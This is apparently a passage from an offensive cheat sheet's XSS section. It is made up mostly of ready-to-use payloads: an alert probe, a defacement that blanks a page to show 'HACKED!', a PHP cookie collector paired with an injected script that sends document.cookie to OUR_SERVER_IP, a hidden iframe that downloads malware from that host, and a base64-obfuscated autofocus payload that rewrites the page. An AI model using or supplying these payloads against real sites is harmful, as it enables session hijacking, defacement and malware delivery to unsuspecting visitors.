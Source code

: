 ```javascript
<img src='bla' onerror=alert("XSS")>
```

### Persistent

```javascript
>document.body.innerHTML="<style>body{visibility:hidden;}</style><div style=visibility:visible;><h1>HACKED!</h1></div>";
````

### PHP collector

`> cookie.txt`
`chmod 777 cookie.txt`

edit a php page like colector.php as follow:

```php
<?php
  $cookie=GET['cookie'];
  $useragent=$_SERVER['HTTP_USER_AGENT'];
  $file=fopen('cookie.txt', 'a');
  fwrite($file,"USER AGENT:$useragent || COOKIE=$cookie\n");
  fclose($file);
?>
```

Script to put in page:

```javascript
<scritp>new Image().src="http://OUR_SERVER_IP/colector.php?cookie="+document.cookie;</script>
```

#### Malware Donwloader via XSS

```javascript
<iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>
```

#### How to play Mario with XSS

```javascript
<iframe src="https://jcw87.github.io/c2-smb1/" width="100%" height="600"></iframe>
```

```javascript
<input onfocus="document.body.innerHTML=atob('PGlmcmFtZSBzcmM9Imh0dHBzOi8vamN3ODcuZ2l0aHViLmlvL2MyLXNtYjEvIiB3aWR0aD0iMTAwJSIgaGVpZ2h0PSI2MDAiPjwvaWZyYW1lPg==')" autofocus>
```

#### XSS payloads

* [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
* [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)


## SQLI
